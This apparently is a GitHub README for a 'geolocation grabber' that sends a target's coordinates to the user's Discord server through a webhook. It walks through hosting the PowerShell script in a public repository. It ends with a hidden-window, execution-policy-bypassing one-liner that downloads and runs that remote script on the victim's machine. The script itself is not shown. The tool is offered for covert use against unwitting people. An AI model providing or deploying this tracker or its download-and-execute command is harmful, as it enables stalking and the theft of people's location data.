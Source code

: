 # geoloaction-grabber
sends the coordinates of the target to your discord server via webhook
<p><p/>
<p><p/>
<p>download geolocationgraber.ps1.txt<p/>
<p>edit and replace WEBHOOK_HERE with your webhook url<p/>
<p>save <p/>
<p>crate a new repo in public <p/>
<p>add file <p/>
<img src="https://user-images.githubusercontent.com/93588803/209905806-c66ec56d-fc37-4d78-8274-f7050838d199.png?raw=true" width="350" title="hover text">
<p>click geolocationgraber.ps1.txt<p/>
 <img src="github.com/quazi00/geoloaction-grabber/tree/main/images/image2" width="350" title="hover text"> 
<p>click the pen<p/>
<p>del .txt<p/>
 <img src="github.com/quazi00/geoloaction-grabber/tree/main/images/image3" width="350" title="hover text"> 
<p>commit changes <p/>
<p>you should be left with geolocationgraber.ps1<p/>
<p>click it<p/>
 <img src="github.com/quazi00/geoloaction-grabber/tree/main/images/image4" width="350" title="hover text"> 
<p>click raw<p/>
<p>copy that link <p/>
<p><p/>
<p>paste that link in the line below where it says paste here <p/>
 ```powershell -w h -NoP -NonI -Exec Bypass iwr PASTE HERE | iex```  
